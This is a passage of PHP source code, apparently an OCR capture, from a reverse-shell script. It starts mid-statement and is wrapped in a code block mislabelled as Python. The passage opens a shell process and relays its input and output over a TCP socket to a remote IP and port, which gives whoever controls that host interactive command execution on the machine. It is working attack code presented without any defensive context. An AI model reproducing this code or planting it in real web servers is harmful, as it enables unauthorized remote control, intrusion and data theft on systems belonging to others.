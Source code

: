 ```python
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
```